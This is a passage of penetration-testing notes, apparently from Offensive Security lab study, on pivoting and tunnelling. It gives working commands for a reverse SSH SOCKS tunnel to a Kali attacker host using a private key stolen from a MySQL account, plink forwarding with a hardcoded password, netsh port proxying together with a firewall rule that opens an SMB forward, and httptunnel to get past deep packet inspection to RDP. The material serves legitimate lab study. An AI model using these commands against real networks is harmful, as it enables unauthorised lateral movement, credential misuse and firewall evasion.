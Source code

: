 ##### SSH Dynamic Remote Port Forwarding (Only work on new version of ssh and allow to create tunnel through remote port forwarding)
```
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa kali@10.11.0.4

#And then proxychain with 127.0.0.1:1080
```

### PLINK.exe (For Windows)
```
#-l is the username and -pw is the password
cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
#We can do the local port forwarding with -L instead of -R
```

### NETSH
```
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110

#Port 4455 will be disabled by default, in order to add it to firewall rule, we do 

netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow

#Don't forget the SMB v2 config on Linux
```

### HTTPTunnel-ing Through Deep Packet Inspection (_It's used with local port forwarding_)
**It is used to send traffic through pure HTTP, bypassing then packet inspection firewall**
For this purpose, we will use httptunnel, which is in 2 tools (**hts** the server and **htc** the client)

For this example, we have A B and C, differents networks having B in common. C wants to communicate with A remote desktop (3389) available for B. But anytraffic a part of http is denied on C. 

In order to overcome this issue, we will configure a local port fowarding on B toward A and an httptunnel server on B so that C the client can send his request through an httptunnel to B. B will receives C request and forward it to A through the local forward.
```
#On B 
ssh -L 0.0.0.0:8888:A.A.A.A:3389 student@127.0.0.1

apt install httptunnel
hts --forward-port localhost:8888 1234 #(To allow C to connect on the httptunnel)

#On C
htc --forward-port 8080 B.B.B.B:1234

#Now, C is ready to remote desktop to A doing
rdesktop 127.0.0.1:8080

#Again do not forget the SMB v2 config
```
